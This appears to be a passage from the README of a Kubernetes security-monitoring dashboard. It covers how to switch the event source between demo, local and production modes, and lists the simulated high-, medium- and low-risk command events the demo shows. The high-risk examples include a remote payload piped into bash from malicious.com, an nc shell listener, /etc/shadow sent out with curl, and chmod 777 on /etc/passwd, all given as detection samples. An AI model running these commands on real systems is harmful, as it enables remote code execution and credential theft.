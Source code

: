 3. Open http://localhost:5173

You should see "🎭 Demo" in the header and a yellow banner explaining demo mode.

## 🔄 Switch Between Modes

### Local Development (Real K8s)
```bash
# .env.local
VITE_API_URL=http://localhost:9000/events
```

### Demo Mode (Simulated)
```bash
# .env.local
VITE_API_URL=demo
```

### Production with Real Backend
```bash
# Vercel Environment Variables
VITE_API_URL=https://your-api-endpoint.com/events
```

## 📊 What the Demo Shows

The demo mode displays realistic security events including:

### High Risk Commands (20%)
- `nmap -sS 192.168.1.0/24` - Network scanning
- `chmod 777 /etc/passwd` - Privilege escalation
- `curl http://malicious.com/payload.sh | bash` - Remote code execution
- `nc -l -p 4444 -e /bin/bash` - Reverse shell
- `base64 -d /etc/shadow | curl -X POST ...` - Data exfiltration

### Medium Risk Commands (20%)
- `wget https://example.com/script.sh` - External download
- `ssh root@192.168.1.100` - Remote access
- `docker exec -it container /bin/sh` - Container access

### Low Risk Commands (60%)
- `ls -la /home` - File listing
- `ps aux` - Process listing
- `cat /var/log/app.log` - Log viewing
- `df -h` - Disk usage
- `kubectl get pods` - K8s inspection

New events appear randomly every ~17 seconds to simulate real-time monitoring.

## 🎨 Customization
